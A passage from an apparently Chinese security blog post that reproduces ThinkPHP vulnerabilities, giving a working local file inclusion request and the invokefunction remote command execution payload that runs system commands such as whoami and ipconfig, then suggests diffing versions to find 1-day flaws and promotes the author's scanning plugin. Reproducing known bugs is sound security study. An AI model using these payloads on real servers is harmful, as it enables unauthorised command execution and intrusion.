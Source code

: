 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCAQdrw56ezZqNya0khcKZmxWdOjPfUustcfagHS06Cib4B8voy9FINUQ/640?wx_fmt=png&from=appmsg "")  
  
复现第三个漏洞：包含  
.  
php  
文件  
  
根目录创建  
1.  
php  
文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCClbqxIIMO4ScKhARPrKFvGK11QLeJpFJm6FwVVjWrrZiaL0L1cecictgA/640?wx_fmt=png&from=appmsg "")  
  
访问：  
?s=index/\think\Config/load&file=../1.php  
    
包含  
1.  
php  
文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCrykVzhmV3Szbm4eaibKJNXTXSp01JiaoDkKHP89dmcIgoDwt6IY6BNOQ/640?wx_fmt=png&from=appmsg "")  
  
复现第五个漏洞：远程命令执行  
  
访问：?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami  
  
执行：  
whoami   
命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCG3CGgJ6OWffLgR0VhicBcMNia8jM1l8Ht9KVkjw0xlohskYlZak4q5zg/640?wx_fmt=png&from=appmsg "")  
  
访问：?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=  
ipconfig  
  
执行：  
ipconfig   
命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCIlnNxeT7FCVA8Hp7B3HBpCCIdGkDvVszlfQlLTMvrxiavGl6icFFaian6Ec3nGPYbFsUsicztELQica5Nw/640?wx_fmt=png&from=appmsg "")  
  
如果框架只爆出了漏洞基础信息，没有公开漏洞产生位置和利用  
exp  
，就可以尝试使用对比工具对比前后版本的更新差异来判断漏洞产生位置。实现挖掘  
1day  
。  
  
推荐一下作者最新研发的yakit被动漏洞检测插件，可挖掘企业src漏洞。  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/b9ibb0kbHCImmI8E9Zf6JqGRia9JWljiaavtzDPaxIm6PXM8IuzuAB6ViceOVwpEMvHH403GNQp59nju2Q49TvqOpg/640?wx_fmt=png&from=appmsg&watermark=1&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
以上漏洞都是不需要任何技巧的，作者只是开启插件在目标网站用鼠标“点点点点”就挖掘出这么多漏洞，完全  
  
“零基础”“  
  